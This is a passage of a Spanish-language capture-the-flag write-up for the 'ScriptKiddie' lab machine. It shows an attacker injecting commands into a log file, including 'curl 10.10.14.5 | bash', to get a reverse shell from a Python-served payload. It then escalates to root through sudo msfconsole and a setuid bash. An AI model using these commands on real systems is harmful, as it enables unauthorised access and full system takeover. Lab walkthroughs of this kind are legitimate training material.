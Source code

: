 ````'curl 10.10.14.3 | bash'```` hará que la máquina victima me envíe una petición HTTP a mi servidor. Yo estaré corriendo un servidor HTTP de python compartiendo un fichero *index.html* malicioso que contendrá un sentencia en bash, que será una *reverse shell*. El ```| bash``` es para que este código sea interpretado del lado de la máquina y me envíe la consola interactiva. También deberé de estar en escucha por el puerto 443 para recibirla.
Si ponemos todo esto en práctica y escribimos lo anterior en el fichero *hackers*:

```bash
echo "x x 127.0.0.1;ping -c 1 10.10.14.5" > /home/kid/logs/hackers
```
Y nos ponemos en escucha de trazas *ICMP* por la interfaz tun0 recibiremos dos trazas de la máquina víctima, Por lo tanto si que funciona la inyección de comandos y podemos hacer que *pwn* nos envíe una consola.

<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/tcpdump.jpg" alt="drawing"  />  

### Shell  

Siguiendo la lógica del apartado anterior, ahora vamos a inyectar un código para que el usuario *pwn* nos envíe una *bash*. Es el siguiente: 

```bash
echo "x x 127.0.0.1;curl 10.10.14.5 | bash" > /home/kid/logs/hackers
```
Al igual que cuando recibimos la shell de *kid*, tendremos que desplegar un servidor HTTP de python compartiendo el fichero *index.html* que habíamos creado anteriormente y ponernos en escucha con *netcat* por el puerto 443.

<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/pwnshell.jpg" alt="drawing"  />  

Una vez ejecutado el *echo* recibiremos la consola. A partir de este punto, haremos el mismo tratamiento que hicimos antes para tener una *shell* completamente interactiva y buscaremos nuevas vías de convertirnos en ***root***.

##  Consiguiendo shell como root  

### Reconocimiento  

Podemos ver que el usuario *pwn* tiene definido en el archivo ***sudoers*** que puede ejecutar la herramienta *msfconsole* como el usuario *root*.

<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/sudoers.jpg" alt="drawing"  />  

### Shell  

Ejecutaremos la herramienta:

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```
Y como el programa lo estaremos corriendo como si fuéramos root nos podemos *spawnear* una shell como *root* simplemente con el comando *bash*.

<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/root.jpg" alt="drawing"  />  

Aquí ya seremos *root* y ya podremos visualizar la *root.txt*.

También podríamos haberle asignado el permiso *setuid* a la bash para posteriormente salirnos de la herramienta *msfconsole* y *spawnearnos* una consola como *root* ejecutando *bash -p*

```bash 
chmod u+s /bin/bash
```
```bash
bash -p
```

##  Autopwn script 

````